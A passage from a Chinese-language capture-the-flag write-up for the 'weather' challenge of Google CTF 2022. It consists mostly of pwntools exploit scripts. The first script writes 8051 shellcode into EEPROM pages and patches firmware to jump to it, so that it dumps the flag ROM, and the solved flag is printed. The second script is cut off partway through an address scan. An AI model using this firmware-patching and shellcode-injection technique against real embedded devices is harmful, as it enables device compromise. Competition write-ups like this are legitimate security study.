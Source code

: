 
为了shellcode简单，开始没用循环，直接使用立即数给FLAGROM_ADDR赋值，这样使得一页64个字节能容纳的shellcode只能进行8次打印，因此在整个交互外面加了个循环，交互五次可以完成打印出flag：

```python
from pwn import *

'''
__sfr __at(0xee) FLAGROM_ADDR;
__sfr __at(0xef) FLAGROM_DATA;
'''

flag = ''

for k in range(5):
    io = remote("weather.2022.ctfcompetition.com",1337)

    shellcode = []
    for j in range(k*8,(k+1)*8,1):
        shellcode += [0x74, j]    # mov  A, j
        shellcode += [0xf5, 0xee] # mov  FLAGROM_ADDR, A
        shellcode += [0xe5, 0xef] # mov  A,FLAGROM_DATA
        shellcode += [0xf5, 0xf2] # mov  CML6, A

    s = ''
    for i in shellcode:
        s += str(255 - i) + ' '
   
    print(s)

    # write shellcode to 0x0e00 (0x0e00 // 64 = 56)
    io.sendlineafter(b"?",b'w 101153 100 56 165 90 165 90 ' + s.encode()) 
    
    # patch 0x4F3 (0x4F3 // 64 = 19 , 0x4F3 % 64 = 51):
    # 12 01 23 7e -> 00 00 02 0e
    io.sendlineafter(b"?",b'w 101153 100 19 165 90 165 90 ' + b'0 '* 51 + b'255 255 253 241')
    io.recvline()
    flag += io.recvuntil(b'Station').decode('utf-8')[:8]
    io.close()
    print(flag)
    
# CTF{DoesAnyoneEvenReadFlagsAnymore?}
```

### 完整exp

完整exp如下：

```python
from pwn import *

'''
>>> 101000 % 256
136
>>> 101000 + (256 - 136)
101120
>>> 101120 % 256
0
'''

def scan():
    io = remote("weather.2022.ctfcompetition.com",1337)
    io.recvuntil(b"?")
    for i in range(128):
        test = 101120 + i
        io.sendline(("r %s 4" % test).encode())
```